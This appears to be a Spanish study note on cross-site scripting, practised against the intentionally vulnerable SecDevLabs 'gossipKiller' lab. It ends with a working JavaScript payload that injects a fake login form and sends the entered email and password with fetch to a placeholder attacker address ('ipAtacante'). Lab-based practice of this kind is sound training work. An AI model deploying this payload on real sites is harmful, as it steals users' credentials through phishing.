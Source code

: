 
-----------------
#vulnerabilidad #xss #explotacion 

------------

Permite a un atacante o a un tercero inyectar código JavaScript en una página web. Para practicar este ejercicio, clonamos el repositorio de GitHub de...

```bash
git clone https://github.com/globocom/SecDevLabs 
```

y posteriormente vamos a la ruta...

```bash 
cd SecDevLabs/Owasp-top-2021/a3/gossipKiller
make install
```

Si te permite ingresar contenido, prueba a ingresar código HTML o JavaScript para vulnerar los POST de código de la página. Se podría primeramente probar de la siguiente forma:

![[Pasted image 20240920135207.png]]

Posteriormente, lo que se hace es intentar ver si la página interpreta código de JavaScript para la inyección de código. Esto se puede probar de la siguiente forma:

![[Pasted image 20240920135517.png]]

Una vez con esta inyección, podemos crear scripts de phishing para recopilar datos o correos de usuarios. Algunos scripts podrían ser los siguientes:

![[Pasted image 20240920135944.png]]

----------

### Código 

```js
<div id="formContainer"></div>

<script>
var email;
var password;
var form = '<form>' +
  'Email: <input type="email" id="email" required>' +
  ' Contraseña: <input type="password" id="password" required>' +
  '<input type="button" onclick="submitForm()" value="Submit">' +
  '</form>';

document.getElementById("formContainer").innerHTML = form;

function submitForm() {
  email = document.getElementById("email").value;
  password = document.getElementById("password").value;
  fetch("http://ipAtacante/?email=" + email + "&password=" + password);
}
</script>

```
